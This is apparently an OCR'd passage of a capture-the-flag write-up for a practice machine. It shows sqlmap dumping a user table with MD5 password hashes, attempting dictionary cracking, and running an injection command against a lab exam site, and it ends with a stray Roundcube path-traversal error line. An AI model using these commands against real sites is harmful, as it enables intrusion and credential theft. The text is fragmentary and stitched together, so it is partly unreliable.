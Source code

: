 [11:38:16] [INFO] retrieved: 112dd9d08abf9dcceec8bc6d3e26b138
[11:38:26] [INFO] retrieved: Regular
[11:38:28] [INFO] retrieved: 4
[11:38:29] [INFO] retrieved: Stev1992
[11:38:31] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[11:38:31] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[11:38:31] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[11:38:31] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[11:38:31] [INFO] starting 8 processes 
[11:38:40] [WARNING] no clear password(s) found                                                                                                            
Database: db_sfms
Table: user
[3 entries]
+---------+---------------+---------------+----------------------------------+------------------+---------------+
| user_id | status        | lastname      | password                         | username         | firstname     |
+---------+---------------+---------------+----------------------------------+------------------+---------------+
| 1       | administrator | Administrator | fc8ec7b43523e186a27f46957818391c | admin            | Administrator |
| 2       | Regular       | Anthony       | b35e311c80075c4916935cbbbd770cef | UndetectableMark | Mark          |
| 4       | Regular       | Smith         | 112dd9d08abf9dcceec8bc6d3e26b138 | Stev1992         | Steven        |
+---------+---------------+---------------+----------------------------------+------------------+---------------+

[11:38:40] [INFO] table 'db_sfms.`user`' dumped to CSV file '/home/kali/.local/share/sqlmap/output/exam.seventeen.htb/dump/db_sfms/user.csv'
[11:38:40] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/exam.seventeen.htb'

[*] ending @ 11:38:40 /2022-07-20/
```

Dump ```students``` Table:
```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://exam.seventeen.htb/?p=take_exam&id=1" -batch -D db_sfms -T student --dump        
        ___
       __H__                                                                                                                                                
 ___ ___["]_____ ___ ___  {1.6.6#stable}                                                                                                                    
|_ -| . [(]     | .'| . |                                                                                                                                   
|___|_  ["]_|_|_|__,|  _|                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                


[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)